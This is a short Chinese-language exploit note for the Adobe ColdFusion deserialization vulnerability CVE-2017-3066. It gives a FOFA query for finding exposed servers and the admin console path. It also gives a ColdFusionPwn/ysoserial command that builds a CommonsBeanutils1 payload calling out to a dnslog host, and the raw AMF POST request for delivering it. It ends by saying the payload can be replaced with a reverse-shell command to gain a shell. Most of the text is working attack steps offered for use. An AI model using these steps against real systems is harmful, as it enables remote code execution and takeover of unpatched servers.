

# Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）
## 资产搜索
fofa app="Adobe-ColdFusion"
## 特征
控制台地址：`/CFIDE/administrator/index.cfm`  

## POC
使用[工具](file/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)生成poc：  
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'nslookup xx.dnslog' poc.ser`  
POC作为数据包body发送给`http://your-ip/flex2gateway/amf`，Content-Type设置为application/x-amf：  
```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```   

讲poc换成反弹shell的命令，即可获取shell